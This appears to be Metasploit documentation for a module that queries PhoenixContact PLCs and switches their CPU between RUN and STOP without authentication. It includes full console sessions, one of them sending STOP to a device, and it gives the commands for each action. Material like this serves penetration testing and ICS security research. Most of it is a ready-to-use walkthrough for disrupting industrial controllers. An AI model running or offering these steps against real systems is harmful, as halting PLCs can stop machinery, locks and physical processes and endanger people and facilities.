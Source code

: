 PhoenixContact Programmable Logic Controllers are built are using a variant of
ProConOS. The communicate using a proprietary protocol over ports TCP/1962 and
TCP/41100 or TCP/20547.  This protocol allows a user to remotely determine the
PLC type, firmware and build number on port TCP/1962.  A user can also
determine the CPU State (Running or Stopped) and start or stop the CPU.

This functionality is confirmed for the PLC series ILC 15x and 17x on TCP port
20547, and for the ILC 39x series on TCP port 41100. Other series may or
may not work, but there is a good chance that they will

## Vulnerable Application

This is a hardware zero-day vulnerability that CANNOT be patched. Possible
mitigations include: pulling the plug (literally), using network isolation
(Firewall, Router, IDS, IPS, network segmentation, etc...) or not allowing bad
people on your network .

Most, if not all, PLC's (computers that control engines, robots, conveyor
belts, sensors, camera's, doorlocks, CRACs ...) have vulnerabilities where,
using their own tools, remote configuration and programming can be done
*WITHOUT* authentication.  Investigators and underground hackers are just now
creating simple tools to convert the, often proprietary, protocols into simple
scripts.  The operating word here is proprietary. Right now, the only thing
stopping very bad stuff from happening.  PhoenixContact uses an (unnamed?)
low-level protocol for connection, information exchange and configuration of
its PLC devices.  This script utilizes that protocol for finding information
and switching the PLC mode from STOP to RUN and vice-versa.

## Verification Steps

The following demonstrates a basic scenario, we "found" two devices with an open port TCP/1962:

```
msf > search phoenix
msf > use auxiliary/admin/scada/phoenix_command
msf auxiliary(phoenix_command) > set RHOST 10.66.56.12
RHOST => 10.66.56.12
msf auxiliary(phoenix_command) > run

[*] 10.66.56.12:0 - PLC Type = ILC 150 GSM/GPRS
[*] 10.66.56.12:0 - Firmware = 3.71
[*] 10.66.56.12:0 - Build    = 07/13/11 12:00:00
[*] 10.66.56.12:0 - ------------------------------------
[*] 10.66.56.12:0 - --> Detected 15x/17x series, getting current CPU state:
[*] 10.66.56.12:0 - CPU Mode = RUN
[*] 10.66.56.12:0 - ------------------------------------
[*] 10.66.56.12:0 - --> No action specified (NOOP), stopping here
[*] Auxiliary module execution completed

msf auxiliary(phoenix_command) > set RHOST 10.66.56.72
RHOST => 10.66.56.72
msf auxiliary(phoenix_command) > set ACTION REV
ACTION => REV
msf auxiliary(phoenix_command) > run
[*] 10.66.56.72:0 - PLC Type = ILC 390 PN 2TX-IB
[*] 10.66.56.72:0 - Firmware = 3.95
[*] 10.66.56.72:0 - Build    = 02/14/11 14:04:47
[*] 10.66.56.72:0 - ------------------------------------
[*] 10.66.56.72:0 - --> Detected 39x series, getting current CPU state:
[*] 10.66.56.72:0 - CPU Mode = RUN
[*] 10.66.56.72:0 - ------------------------------------
[*] 10.66.56.72:0 - --> Sending STOP now
[*] 10.66.56.72:0 - CPU Mode = STOP
[*] Auxiliary module execution completed
```

## Module Options
```
msf auxiliary(phoenix_command) > show options

Module options (auxiliary/admin/scada/phoenix_command):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ACTION     NOOP             yes       PLC CPU action, REV means reverse state (Accepted: STOP, START, REV, NOOP)
   RHOST                       yes       The target address
   RINFOPORT  1962             yes       Set info port
   RPORT                       no        Set action port, will try autodetect when not set
```

By default, the module only reads out the PLC Type, Firmware version, Build
date and current CPU mode (RUNing or STOPed)

The first three pieces of data (Type, Firmware & Build) are always found on
port TCP/1962 (there is no way of changing that port on the PLC, so also no
reason to change the 'RINFOPORT' option)

The CPU mode uses a TCP port depending on the PLC Type, the module will
automatically detect the type and port to use, but can be overridden with the
'RPORT' option, however no real reason to configure it. If you accidentally set RPORT, you can unset it with the ```unset RPORT``` command.

**The ACTION option**

Action has four possible values:

By default, the module will do nothing to the PLC, therefore No Operation or 'NOOP':

```
msf auxiliary(phoenix_command) > set ACTION NOOP
```

The PLC can be forced to go into STOP mode, meaning it stops all execution and all outputs are set to low:

```
msf auxiliary(phoenix_command) > set ACTION STOP
```

The PLC can be forced to go into RUN mode, where it keeps running it was or it will start executing its current boot programming:

```
msf auxiliary(phoenix_command) > set ACTION START
```

The module can also just read out the CPU mode and then reverse whatever it finds, RUN becomes STOP, STOP becomes RUN:

```
msf auxiliary(phoenix_command) > set ACTION REV
```
